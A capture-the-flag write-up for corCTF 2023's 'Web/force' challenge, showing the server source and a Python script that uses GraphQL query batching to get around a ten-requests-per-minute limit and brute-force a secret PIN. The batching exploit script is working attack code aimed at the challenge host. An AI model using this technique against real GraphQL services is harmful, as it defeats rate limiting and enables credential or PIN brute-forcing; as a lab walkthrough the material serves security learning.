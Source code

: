 # corCTF 2023

## Web/force

## Challenge Overview

`Description`: Unbreakable vault door!

![Index](./images/index.png)

We have been given a website with a query in it.

So first let's see the source code given.

```js
import fastify from 'fastify';
import mercurius from 'mercurius';
import { randomInt } from 'crypto';
import { readFile } from 'fs/promises';

const app = fastify({
    logger: true
});
const index = await readFile('./index.html', 'utf-8');

const secret = randomInt(0, 10 ** 5);

let requests = 10;

setInterval(() => requests = 10, 60000);

await app.register(mercurius, {
    schema: `type Query {
        flag(pin: Int): String
    }`,
    resolvers: {
        Query: {
            flag: (_, { pin }) => {
                if (pin !== secret) {
                    return 'Wrong!';
                }
                return process.env.FLAG || 'corctf{REDACTED}';
            }
        }
    },
    routes: false
});

app.get('/', (req, res) => {
    return res.header('Content-Type', 'text/html').send(index);
});

app.post('/', async (req, res) => {
    if (requests <= 0) {
        return res.send('no u');
    }
    requests--;
    return res.graphql(req.body);
});

app.listen({ host: '0.0.0.0', port: 4020 });
```
So it generates a random integer named `secret` from 0 to 100000 and if we send the query in the given format with pin matching the secret it will give us the flag but the problem is there are 100000 possibilities and we can't bruteforce also because we can send only 10 request per 60 seconds.

## Vulnerability Identification

So we have to find a way in which we can send different pins multiple times in the 1 post request.

There is a technique named `graphql-batching-attack` in which we can send multiple query in 1 post request as given below in image.

![Reference](./images/reference.png)

[Reference](https://lab.wallarm.com/graphql-batching-attack/)


## Exploiting the Vulnerability

So to exploit it we will be sending the query with 30000 flags each time with the below given python sctipt.

```python
import requests
import re

headers = {
    'Content-Type': 'text/plain;charset=UTF-8',
}
url = 'https://web-force-force-a2e5f8d6b3c3a1f9.be.ax/'

for i in range(4):
    query = ''
    print(f'trying from {i * 30000} to {(i + 1) * 30000 - 1}')  # Adjusted the loop range
    
    for x in range(i * 30000, (i + 1) * 30000):
        query += f'flag{x} : flag(pin: {x})\n'
    response = requests.post(url, headers=headers, data=f'{{{query}}}')
    
    if 'corctf{' in response.text:
        flag = re.search(r'corctf\{.*?\}', response.text)
        if flag:
            print(f"Found flag on : {flag.group(0)}") 
            break

```

## Obtaining the Flag

Hence after running the script we get the flag

![Flag](./images/flag.png) 

Flag: **corctf{S&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;T&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;O&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;N&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;K&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;S}**

Thank You
